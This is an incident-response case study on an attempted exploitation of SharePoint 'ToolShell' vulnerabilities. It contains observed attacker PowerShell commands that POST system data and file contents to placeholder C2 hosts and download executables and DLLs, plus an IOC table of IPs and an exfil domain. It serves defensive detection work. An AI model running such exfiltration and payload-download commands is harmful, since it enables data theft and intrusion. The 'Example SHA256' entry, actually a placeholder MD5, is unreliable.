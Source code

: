 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.

- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed command patterns (sanitized):
 ``` 
 # Data-exfil / reconnaissance via HTTP POST
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(type C:\ProgramData\defender.log)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\Users\[SERVICE_ACCOUNT]\AppData\Local\)

# Artifact download / drop
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/1 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\SPDesk.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# Backgrounding / chained command examples (sanitized)
cmd.exe /c powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(appcmmd list sites) &
cmd.exe /c ping -n 1 google.com
 ```


## Analysis Summary
- Command patterns show **three clear attacker behaviours**: (1) reconnaissance / local information collection (e.g., `systeminfo`, `whoami`, directory listings), (2) exfiltration of collected data via HTTP POST to remote host(s), and (3) downloading and writing executable and DLL artifacts into a web-app context (`AppData\Local`) — consistent with attempts to achieve **RCE / persistence** in a SharePoint web directory.
    
- Several requests used plain HTTP (no TLS) and predictable endpoints, indicating opportunistic PoC-style weaponization.
    
- Encoded or obfuscated payloads (e.g., `-enc` / `-EncodedCommand`) were observed in related alerts (patterned as `powershell.exe -enc ...`), suggesting attempts to evade simple detection.

## Indicators of Compromise (IOCs)

> Suspicious activity consistent with potential exploitation of a SharePoint vulnerability was observed on a SharePoint host. Multiple alerts reported unusual DLL and ASPX files being deployed within the SharePoint web directory, indicating possible remote code execution (RCE).

| Type       | Value / Pattern                                  | Notes / Context                                             |
| ---------- | ------------------------------------------------ | ----------------------------------------------------------- |
| IP Address | `45.136.197.24`                                  | Observed serving payloads over HTTP on TCP port 10888       |
| IP Address | `179.43.141.208`                                 | Observed connecting from external host                      |
| IP Address | `38.47.124.201`                                  | Observed connecting from external host                      |
| Domain     | `hxxp://mpf1oyds.requestrepo[.]com`              | Command-and-control / exfil endpoint (obfuscated for share) |
| File Hash  | `d41d8cd98f00b204e9800998ecf8427e`               | Example SHA256 (replace with actual hash for internal use)  |
| Process    | `w3wp.exe → powershell.exe`                      | IIS worker spawning PowerShell (parent→child execution)     |
| File Path  | `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\*.dll` | Dropped DLLs/EXEs written into service account local dir    |
| URL        | `hxxp://[C2_DOMAIN]/<path>`                      | Exploit/delivery endpoints; use `hxxp` for safe sharing     |

